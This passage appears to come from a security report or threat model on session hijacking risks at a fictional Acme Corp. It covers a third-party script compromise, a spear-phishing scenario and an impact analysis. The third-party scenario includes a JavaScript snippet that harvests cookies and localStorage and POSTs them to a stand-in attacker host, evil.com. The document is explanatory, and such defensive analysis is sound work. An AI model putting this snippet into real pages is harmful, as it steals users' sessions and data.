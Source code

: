 **Scenario 2: Third-Party JavaScript Compromise**
Acme Corp's application uses several third-party JavaScript libraries for analytics and UI components. An attacker compromises one of these third-party services (or its CDN). The compromised script is then served to all users of Acme Corp's application, containing code that harvests session cookies and transmits them to the attacker's server:

```javascript
// Malicious code injected into legitimate third-party script
(function() {
  var stolenData = {
    url: window.location.href,
    cookies: document.cookie,
    localStorage: JSON.stringify(localStorage)
  };
  fetch('https://analytics-collector.evil.com/data', {
    method: 'POST',
    body: JSON.stringify(stolenData)
  });
})();

```

The attacker collects thousands of valid session identifiers and conducts a large-scale account takeover campaign.

**Scenario 3: Targeted Spear-phishing Attack**
An attacker targets a specific high-value employee (such as an administrator) at Acme Corp. After researching the target on social media, the attacker sends a personalized email containing a link to what appears to be a relevant industry article.

The link actually points to a malicious page containing an exploit for a zero-day browser vulnerability that executes JavaScript without user permission. This script extracts the session cookie from Acme Corp's domain and transmits it to the attacker.

The attacker then uses the administrator's session to access sensitive company data, modify system configurations, or create backdoor accounts for persistent access.

# Impact Analysis
**Business Impact:**
- Unauthorized access to user accounts leading to privacy violations and data breaches
- Potential exposure of sensitive customer information stored in user sessions
- Financial losses from fraudulent transactions performed through hijacked sessions
- Compliance violations with regulations like GDPR, CCPA, or PCI DSS that require proper protection of user data
- Reputational damage and loss of customer trust if a breach occurs and becomes public
- Potential legal liability from affected users whose accounts were compromised
- Business disruption if critical administrative accounts are compromised

**Technical Impact:**
- Complete bypass of authentication mechanisms via session hijacking
- Access to sensitive functions and data through valid session identifiers
- Potential privilege escalation if administrator sessions are compromised
- Ability to perform any action the victim user is authorized to perform
- Difficulty in detecting the compromise as actions appear to come from legitimate users
- Potential for data exfiltration from the application without triggering security alerts
- Creation of persistent threats through establishment of backdoor accounts
- Chaining with other vulnerabilities to increase impact (e.g., using stolen admin session to introduce more vulnerabilities)
